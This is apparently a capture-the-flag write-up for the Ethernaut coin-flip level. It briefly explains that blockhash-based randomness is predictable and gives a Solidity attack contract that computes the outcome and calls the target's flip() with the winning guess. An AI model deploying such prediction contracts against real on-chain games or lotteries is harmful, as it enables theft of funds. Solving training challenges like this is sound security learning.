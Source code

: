 # Ethernaut Level 4 FlipCoin
It can be solved same as telephone calculate the randomvalue and again call the original flipcoin flip function.
why?
blockchain randomness is not true random.we can manipulate it by using tools.

# Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IFlipCoin {
    function flip(bool _guess) external returns (bool);
}

contract Attack {
    IFlipCoin public flipCoin;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _flipCoin) {
        flipCoin = IFlipCoin(_flipCoin);
    }


    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 flipVal = blockValue / FACTOR;
        bool guess = flipVal==1?true:false; 
        flipCoin.flip(guess);
    }
}
```

